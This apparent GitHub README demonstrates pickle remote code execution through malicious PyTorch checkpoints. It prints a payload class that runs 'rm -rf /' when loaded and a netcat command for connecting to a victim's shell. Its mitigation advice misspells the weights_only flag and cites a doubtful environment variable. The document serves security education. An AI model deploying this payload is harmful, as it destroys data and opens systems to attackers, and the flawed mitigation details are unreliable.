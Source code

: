 # Pickle Remote Code Execution (RCE) Vulnerability

This repository demonstrates a security vulnerability in Python's `pickle` module that can lead to remote code execution (RCE). The `pickle` module is used for serializing and deserializing Python objects, but it can execute arbitrary code during deserialization, making it dangerous to use with untrusted data.

## Repository Structure

- `gen_clean_ckpt.py`: Script to generate a clean checkpoint.
- `gen_payload_ckpy.py`: Script to generate a payload checkpoint.
- `payload_example.py`: Example script demonstrating the pickle RCE vulnerability.
- `README.md`: This file.

## Setup

```bash
pip install torch
python gen_clean_ckpt.py
python gen_payload_ckpy.py model_checkpoint.pth
```

Now victim loads the checkpoint using `torch.load`:

```python
torch.load('malicious_checkpoint.pth')
```

Attcker can now connect to the victim's machine using netcat:

```bash
nc localhost 4444 # replace localhost with the victim's IP
```

## Understanding the Vulnerability

The `payload_example.py` script demonstrates how an attacker can exploit the pickle RCE vulnerability. Here's a breakdown of the script:

The attack works by the unpickling or deserializing of python object classes.

As certain class objects might not be easy to serialize and stored by pickle,
such as file objects, sockets, etc. The `__reduce__` method is used to define
how the object should be constructed while unpickling/deserializing.

i.e. arbitrary code execution can be achieved by defining a class with a `__reduce__` method that executes the desired code.

```python
import pickle
import os

class MaliciousPickle:
    def __reduce__(self):
        return (os.system, ('rm -rf /',)) # 😏💣

payload = pickle.dumps(MaliciousPickle())
pickle.loads(payload) # This will execute the payload and the attacker gains control
```

## Mitigations

***Never unpickle untrusted data***. The `pickle` module is not secure against erroneous or maliciously constructed data. It is recommended to use safer alternatives like JSON, XML, or YAML for data serialization and deserialization.

### ML specific mitigations

Always use `torch.load` with the `weight_only=True` flag to load model weights only. This ensures that the model architecture is not loaded from the checkpoint, preventing the execution of arbitrary code.

Or just set the environment variable `TORCH_LOAD_DISABLE_PICKLE` to `1` to disable the use of unsafe pickle in `torch.load`.

Lastly, just switch to using **safetensor** for model checkpoints.

An instance of the vulnerability which documents how untrusted pickle data can lead to remote code execution (RCE). For more details, refer to the official CVE entry:
[CVE-2024-3568](https://nvd.nist.gov/vuln/detail/CVE-2024-3568)
